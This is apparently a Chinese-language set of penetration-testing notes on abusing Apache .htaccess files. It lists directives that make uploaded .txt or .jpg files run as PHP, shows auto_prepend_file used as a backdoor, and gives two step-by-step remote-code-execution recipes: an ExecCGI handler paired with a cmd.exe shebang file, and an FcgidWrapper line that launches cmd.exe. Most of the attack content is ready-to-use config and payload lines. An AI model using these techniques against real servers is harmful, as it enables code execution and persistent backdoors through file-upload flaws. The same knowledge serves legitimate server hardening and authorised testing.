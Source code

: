 # htaccess利用



## 收藏

[指令索引](http://httpd.apache.org/docs/2.4/mod/directives.html)

 https://www.freebuf.com/vuls/218495.html 

## 一些性质

在`.htaccess`文件中#与`\x00`为注释符号

## 开启条件



1. AllowOverride All
2. AllowOverride FileInfo

## \有点类似shell里的\

```
php_value auto_prepend_fi\
le ".htaccess"
```

可以成功执行

## 常用的设置命令

### 设置http头解析格式

`AddHandler php7-script .txt`

`AddType application/x-httpd-php .jpg`

`SetHandler application/x-httpd-php`



### 设置php.ini

`php_value pcre.backtrack_limit 0
php_value pcre.jit 0 `

### PHP环境下使用 auto_prepend_file 或 auto_append_file 创建后门

通过配置auto_append_file或auto_prepend_file可以向所有php文件中的开头或尾部插入指定的文件的内容。

在. htaccess中的写入如下：

```
php_value auto_prepend_file "/home/fdipzone/header.php"php_value auto_append_file "/home/fdipzone/footer.php"
```

对于CGI/FastCGI模式 PHP 5.3.0 以上版本，还可以使用 在目录下创建.user.ini文件 。来引入该参数。写法如下：

```
auto_prepend_file = 123.gif
```

## CGI启动方式的RCE利用姿势

### 利用条件

> 1.保证htaccess会被解析，即当前目录中配置了`AllowOverride all或AllowOverride Options FileInfo。AllowOverride参数具体作用可参考Apache之AllowOverride参数详解。(Require all granted也是需要的)
>
> 2.cgi_module被加载。即apache配置文件中有LoadModule cgi_module modules/mod_cgi.so这么一句且没有被注释。
>
> 3.有目录的上传、写入权限。

### 利用姿势

上传.htaccess 文件, 内容如下：

```
Options ExecCGI
AddHandler cgi-script .xx
```

Options ExecCGI表示允许CGI执行，如果AllowOverride只有FileInfo权限且本身就开启了ExecCGI的话，就可以不需要这句话了。

第二句告诉Apache将xx后缀名的文件，当做CGI程序进行解析。

接下来，以Windows平台为例，上传poc.xx文件，内容如下：

```
#!C:/Windows/System32/cmd.exe /c start calc.exe
1
```

第一行用来表示CGI程序的路径。可以随便开你的脑洞。

因为CGI程序处理完成后，会被Apache关闭，所以我们这里要用启动新进程的方式来启动。

![image.png](https://ws1.sinaimg.cn/large/006pWR9agy1g9dtjch3qij31mw0j2gw3.jpg)



## FastCGI启动方式的RCE利用姿势

我们再来看看FastCGI模式的，这个依赖的是mod_fcgid.so，默认安装包里甚至没有这个so文件，不过在PHPStudy的默认配置中，就已经是加载了的，并且AllowOverride也是All权限，手动斜眼。

其实还有mod_proxy_fcgi，更为常见，也是默认开启的，还不清楚能否利用，表哥表姐们可以尝试一下。

### 利用条件

> 1.AllowOverride all或AllowOverride Options FileInfo。
>
> 2.mod_fcgid.so被加载。即apache配置文件中有LoadModule fcgid_module modules/mod_fcgid.so
>
> \3. 有目录的上传、写入权限。

### 利用姿势

上传.htaccess 文件, 内容如下：

```
Options +ExecCGI
AddHandler fcgid-script .abc
FcgidWrapper "C:/Windows/System32/cmd.exe /c start cmd.exe" .abc
```

老样子，如果默认就开启了ExecCGI，则第一句可以省略。

第二句表示，abc后缀名的文件需要被fcgi来解析。AddHandler还可以换成AddType。

再上传1.abc。内容无所谓。

![image.png](https://ws1.sinaimg.cn/large/006pWR9aly1g9dthc893ej314b0b5abe.jpg)